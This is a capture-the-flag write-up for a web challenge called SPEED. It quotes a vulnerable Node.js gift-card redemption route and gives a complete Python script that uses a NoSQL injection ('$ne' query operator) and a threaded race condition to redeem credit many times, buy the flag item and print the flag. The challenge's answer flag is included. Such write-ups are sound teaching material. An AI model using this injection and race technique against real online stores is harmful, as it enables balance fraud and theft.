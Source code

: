 ## Question
Welcome to Radiator Springs' finest store, where every car enthusiast's dream comes true! But remember, in the world of racing, precision matters—so tread carefully as you navigate this high-octane experience. Ka-chow!

## Solution
Opening the site, this is what we see.
![image](https://github.com/user-attachments/assets/95d22d1a-cc20-4edc-b23d-10a801e15dd4)

The objective was to buy the most expensive item in the store to access and read the flag.
![image](https://github.com/user-attachments/assets/2aabb838-fae8-46d6-9ecf-212ab58d0407)

Continuing to read the [source code](https://github.com/Rishblol/CTF-Writeups/tree/main/srdnlenCTF'25/files/SPEED), we go to the `/redeem` section of the site.
```javascript
router.get('/redeem', isAuth, async (req, res) => {
    try {
        const user = await User.findById(req.user.userId);

        if (!user) {
            return res.render('error', { Authenticated: true, message: 'User not found' });
        }

        // Now handle the DiscountCode (Gift Card)
        let { discountCode } = req.query;
        
        if (!discountCode) {
            return res.render('error', { Authenticated: true, message: 'Discount code is required!' });
        }

        const discount = await DiscountCodes.findOne({discountCode})

        if (!discount) {
            return res.render('error', { Authenticated: true, message: 'Invalid discount code!' });
        }

        // Check if the voucher has already been redeemed today
        const today = new Date();
        const lastRedemption = user.lastVoucherRedemption;

        if (lastRedemption) {
            const isSameDay = lastRedemption.getFullYear() === today.getFullYear() &&
                              lastRedemption.getMonth() === today.getMonth() &&
                              lastRedemption.getDate() === today.getDate();
            if (isSameDay) {
                return res.json({success: false, message: 'You have already redeemed your gift card today!' });
            }
        }

        // Apply the gift card value to the user's balance
        const { Balance } = await User.findById(req.user.userId).select('Balance');
        user.Balance = Balance + discount.value;
        // Introduce a slight delay to ensure proper logging of the transaction 
        // and prevent potential database write collisions in high-load scenarios.
        new Promise(resolve => setTimeout(resolve, delay * 1000));
        user.lastVoucherRedemption = today;
        await user.save();

        return res.json({
            success: true,
            message: 'Gift card redeemed successfully! New Balance: ' + user.Balance // Send success message
        });

    } catch (error) {
        console.error('Error during gift card redemption:', error);
        return res.render('error', { Authenticated: true, message: 'Error redeeming gift card'});
    }
});
```
This is perfect grounds for a NoSQL injection.\
We can exploit this by writing a Python script and we'll get the flag.\
```python
import requests
from faker import Faker
from bs4 import BeautifulSoup
import threading

s = []
snum = 20
fake = Faker()
url = "http://speed.challs.srdnlen.it:8082/"

data = {
        "username":fake.user_name(),
        "password":fake.password()
        }

## NoSQLInjection
def req(i):
    s[i].get(url + "redeem?discountCode[$ne]=test")
    
th = []

## Race Condition
for i in range(snum):
    s.append(requests.Session())
    
    if i == 0:
        s[i].post(url + "register-user", json=data)
    
    s[i].post(url + "user-login", json=data)
    
    x = threading.Thread(target=req, args=(i,))
    th.append(x)
    
for i in range(snum):
    th[i].start()
    
for i in range(snum):
    th[i].join()

## Login  
session = requests.Session()  
session.post(url + "user-login", json=data).text

## Flag purchase
session.post(url + "store", json={"productId": 4})

## Flag extraction
print("\nFLAG: " + BeautifulSoup(session.get(url, timeout=20).text, 'html.parser').find('p', class_='card-text', string=lambda t: t and 'Flag:' in t).get_text().split('Flag: ')[1])
```
`flag: srdnlen{6peed_1s_My_0nly_Competition}`

